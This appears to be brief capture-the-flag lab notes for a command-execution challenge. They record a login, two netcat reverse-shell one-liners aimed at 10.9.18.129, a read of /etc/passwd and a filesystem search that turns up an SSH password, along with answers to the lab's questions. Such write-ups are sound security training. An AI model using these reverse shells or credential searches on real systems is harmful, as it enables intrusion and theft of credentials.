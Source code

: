 # Command execution

## Notes

```
login using pingudad:secretpass

using revershell from pentestmonkey
nc -e /bin/sh 10.9.18.129 1234 => NOT WORKING

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.18.129 1234 >/tmp/f

```

## Questions

1. How many files are in the current directory?

```
ls

2591c98b70119fe624898b1e424b5e91.php administrator.php index.html index.html

3

```

2. Do I still have an account

```
cat /etc/passwd => search for pingu

yes
```

3. What is my ssh password?

```
find / -name pass 2>/dev/null
/var/hidden/pass

pinguapingu
```
